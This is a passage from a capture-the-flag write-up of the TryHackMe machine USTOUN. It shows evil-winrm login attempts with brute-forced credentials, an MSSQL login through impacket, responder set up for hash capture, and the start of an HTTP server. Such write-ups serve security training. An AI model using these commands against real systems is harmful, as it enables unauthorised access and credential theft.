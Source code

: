   .                                   D        0  Sat Jan 30 18:28:07 2021
  ..                                  D        0  Sat Jan 30 18:28:07 2021

                12966143 blocks of size 4096. 8369584 blocks available
smb: \> 
```

We are in since we have Winrm port open i try using `evil-winrm` maybe i can get access to the target with the credentials i got from brute forcing SMB.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/TryHackMe/USTOUN]
└─$ evil-winrm -i 10.10.83.170 -u SVC-Kerb -p superman

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError

Error: Exiting with code 1

                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/TryHackMe/USTOUN]
└─$ evil-winrm -i ustoun.local -u SVC-Kerb -p superman                                                                                                             1 ⨯

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError

Error: Exiting with code 1
```

But no luck also going back to our nmap result seems we have `1433/tcp  open     ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM` open now back to `impacket` to use `mssqlclient.py` .

```
┌──(muzec㉿Muzec-Security)-[~/Documents/TryHackMe/USTOUN]
└─$ mssqlclient.py ustoun.local/svc-kerb:superman@10.10.83.170 
Impacket v0.9.24.dev1+20210629.123513.142cacb6 - Copyright 2021 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC): Line 1: Changed database context to 'master'.
[*] INFO(DC): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL> 
```

We are in cool right let try see if we can dump any more user hashes using `responder` .

```
sudo responder -I tun0 
```

![image](https://user-images.githubusercontent.com/69868171/126151916-bfc419b1-caeb-4e82-ba9b-811fa480fc6e.png)


We have set up now let start a `SimpleHTTPServer` on port 80.

```
sudo python -m SimpleHTTPServer 80